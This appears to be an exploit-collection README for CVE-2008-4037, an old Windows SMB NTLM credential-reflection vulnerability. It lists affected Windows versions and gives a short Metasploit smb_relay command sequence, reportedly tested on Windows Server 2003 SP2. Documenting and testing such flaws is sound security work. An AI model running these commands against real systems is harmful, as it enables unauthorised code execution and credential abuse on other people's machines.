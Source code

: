 ### CVE-2008-4037

#### Describe

Microsoft Windows 2000 Gold through SP4, XP Gold through SP3, Server 2003 SP1 and SP2, Vista Gold and SP1, and Server 2008 allows remote SMB servers to execute arbitrary code on a client machine by replaying the NTLM credentials of a client user, as demonstrated by backrush, aka "SMB Credential Reflection Vulnerability." NOTE: some reliable sources report that this vulnerability exists because of an insufficient fix for CVE-2000-0834.


#### ImpactVersion

| Product             | CPU Architecture | Version | Update | Tested             |
| ------------------- | ---------------- | ------- | ------ | ------------------ |
| Windows XP          |                  |         | SP2    |                    |
| Windows XP          |                  |         | SP3    |                    |
| Windows Server 2003 |                  |         | SP1    |                    |
| Windows Server 2003 |                  |         | SP2    | &#10004; |
| Windows 2000        |                  |         | SP4    |                    |
| Windows Server 2008 | X64/X86          |         |        |                    |
| Windows Vista       |                  |         | SP1    |                    |
| Windows Vista       |                  |         |        |                    |

#### Utilization

use MSF Test system Windows Server 2003 SP2 x86

```
use exploit/windows/smb/smb_relay
set SMBHOST 192.168.1.14 #目标IP
run
```

![image-20200823142846532](https://raw.github.com/Ascotbe/Random-img/master/Kernelhub/CVE-2008-4037_win2003_x86_msf.png)

